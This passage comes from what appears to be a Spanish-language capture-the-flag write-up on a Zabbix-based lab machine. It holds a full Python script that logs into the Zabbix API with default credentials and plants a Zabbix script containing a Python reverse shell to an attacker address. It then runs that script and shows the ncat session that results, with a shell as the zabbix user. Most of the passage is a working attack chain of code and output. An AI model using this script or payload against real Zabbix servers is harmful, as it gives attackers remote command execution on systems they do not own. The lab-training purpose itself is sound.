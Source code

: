``` python
#!/usr/bin/env python3
from pyzabbix import ZabbixAPI

api_address="http://10.10.10.108/zabbix/api_jsonrpc.php"

user="zapper"
password="zapper"
hostname = "Zipper"
hostid = "10106"

zapi = ZabbixAPI(api_address)
zapi.login(user, password)

scriptid = ""

revshell = "python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.83\",3001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'"

get_scripts = zapi.script.get(filter={"host": hostname})
for script in get_scripts:
    if script['name'] == "miau script":
        scriptid = script['scriptid']
        zapi.script.update(scriptid=scriptid, execute_on="0", command=revshell)

if scriptid == "":
    scriptid = zapi.script.create(name='miau script', execute_on="0", command=revshell)['scriptids']

print(zapi.script.execute(hostid=hostid, scriptid=scriptid))
```

Volvemos a ejecutar y ahora tendremos una conexión hacia el listener de `ncat`:

``` text
xbytemx@laptop:~$ ncat -nlvp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.108.
Ncat: Connection from 10.10.10.108:51910.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$ ls -lah /
total 948M
drwxr-xr-x  22 root   root   4.0K Sep  8 07:10 .
drwxr-xr-x  22 root   root   4.0K Sep  8 07:10 ..
drwxrwxrwx   2 zapper zapper 4.0K Jan 10 00:07 backups
drwxr-xr-x   2 root   root   4.0K Sep  8 06:51 bin
drwxr-xr-x   3 root   root   4.0K Sep  8 06:44 boot
drwxr-xr-x  18 root   root   3.8K Jan  9 23:22 dev
drwxr-xr-x  80 root   root   4.0K Oct  2 13:18 etc
drwxr-xr-x   3 root   root   4.0K Sep  8 06:44 home
lrwxrwxrwx   1 root   root     33 Sep  8 06:41 initrd.img -> boot/initrd.img-4.15.0-33-generic
lrwxrwxrwx   1 root   root     33 Sep  8 06:41 initrd.img.old -> boot/initrd.img-4.15.0-33-generic
drwxr-xr-x  20 root   root   4.0K Oct  2 13:18 lib
drwx------   2 root   root    16K Sep  8 06:38 lost+found
drwxr-xr-x   2 root   root   4.0K Sep  8 06:38 media
drwxr-xr-x   2 root   root   4.0K Sep  8 06:40 mnt
drwxr-xr-x   2 root   root   4.0K Sep  8 06:40 opt
dr-xr-xr-x 145 root   root      0 Jan  9 23:22 proc
drwx------   5 root   root   4.0K Sep  9 19:16 root
drwxr-xr-x  21 root   root    640 Jan  9 23:22 run
```